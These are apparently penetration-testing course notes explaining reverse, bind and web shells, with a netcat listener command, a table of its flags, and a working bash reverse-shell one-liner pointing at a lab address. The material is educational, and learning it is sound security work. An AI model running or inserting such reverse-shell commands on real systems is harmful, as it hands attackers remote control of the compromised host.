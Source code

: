 ```shell-session
```





### Types of Shells

| **Shell Type**  | **Description**                                              |
| --------------- | ------------------------------------------------------------ |
| `Reverse shell` | Initiates a connection back to a "listener" on our attack box. |
| `Bind shell`    | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
| `Web shell`     | Runs operating system commands via the web browser, typically not  interactive or semi-interactive. It can also be used to run single  commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |

[Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

#### Reverse shell

Once we identify a vulnerability on the remote host that allows remote code execution, we can start a `netcat` listener on our machine that listens on a specific port, say port `1234`. With this listener in place, we can execute a `reverse shell command` that connects the remote systems shell, i.e., `Bash` or `PowerShell` to our `netcat` listener, which gives us a reverse connection over the remote system.

```shell-session
Bonzo@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

| Flag      | Description                                                  |
| --------- | ------------------------------------------------------------ |
| `-l`      | Listen mode, to wait for a connection to connect to us.      |
| `-v`      | Verbose mode, so that we know when we receive a connection.  |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

The command we execute depends on what operating system the compromised  host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.



Examples for reverse shells (Linux and Windows)

`Code: bash`

```bash
bash -c 'bash -i >& /dev/TCP/10.10.10.10/1234 0>&1'
```


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"